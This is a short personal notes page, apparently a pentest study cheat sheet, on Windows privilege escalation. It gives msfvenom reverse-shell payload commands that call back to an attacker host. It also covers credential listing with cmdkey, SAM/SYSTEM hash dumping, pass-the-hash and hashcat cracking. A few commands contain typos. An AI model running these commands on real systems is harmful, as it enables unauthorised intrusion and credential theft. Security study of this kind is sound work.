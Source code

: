 ```yaml
---
layout: post
title: 'Notes | Windows Privilage Escalation'
permalink: /notes/system/windows-privilage-escalation/
---
```


# Insecure Windows Service Permissions
If we manage to find one Insecure Windows Service we can modify the executable file with one corrupted and wait to the service to execute (or by ourselves with *net start [service]*).
We can create a reverse shell with **msfvenom**:
{% highlight bash %}
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attackerIP] LPORT=[port] -f exe -o reverse.exe
{% endhighlight %}
And change the **reverse.exe** name with the service.exe name.

# Saved Credentials
We can execute:
{% highlight bash %}
> cmdkey /list
{% endhighlight %}
to get some credentials.

# SAM and SYSTEM
We can search for those files in ** C:\Windows\Repair**. With those we can get and crack the system's passwords.
For example with **creddump7**:
{% highlight bash %}
> python3 creddump7/pwdump.py SYSTEM SAM
{% endhighlight %}

Then we can log in with the hash or break the hash:
{% highlight bash %}
> pth-winexe -U 'admin%hash' //[ip] cmd.exe
{% endhighlight %}
{% highlight bash %}
> hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.tx
{% endhighlight %}

# AlwaysInstalledElevated
If that property is set 1 (we can check it with: **reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevate**) we can create a msi with **msfvenom**:
{% highlight bash %}
> sfvenom -p windows/x64/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f msi -o reverse.ms
{% endhighlight %}

# Tools
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)